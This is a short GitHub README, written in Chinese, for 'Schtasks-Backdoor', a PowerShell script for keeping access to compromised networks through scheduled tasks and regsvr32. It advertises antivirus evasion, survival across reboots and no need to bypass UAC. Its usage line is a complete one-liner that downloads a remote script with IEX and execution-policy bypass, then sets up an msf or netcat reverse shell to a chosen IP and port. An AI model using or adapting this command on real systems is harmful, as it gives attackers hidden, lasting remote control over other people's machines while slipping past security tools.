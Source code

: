# Schtasks-Backdoor

## About

一款权限维持后门PowerShell脚本

## Principle

schtasks+regsvr32

## Function

内网维持权限方法的一种。免杀效果好，重启生效。支持msf反弹，nc反弹，客户端不会用明显异常，自定义执行命令会有弹框（可以自己修改，思路可以使用mshta），一般实战中用nc或者msf。

## Usage

`powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/Invoke-taskBackdoor.ps1');Invoke-Tasksbackdoor -method msf -ip 8.8.8.8 -port 8081 -time 2"`

此脚本优势就是不需要过uac权限。

## Example

![example](https://github.com/re4lity/Schtasks-Backdoor/blob/master/example.gif)
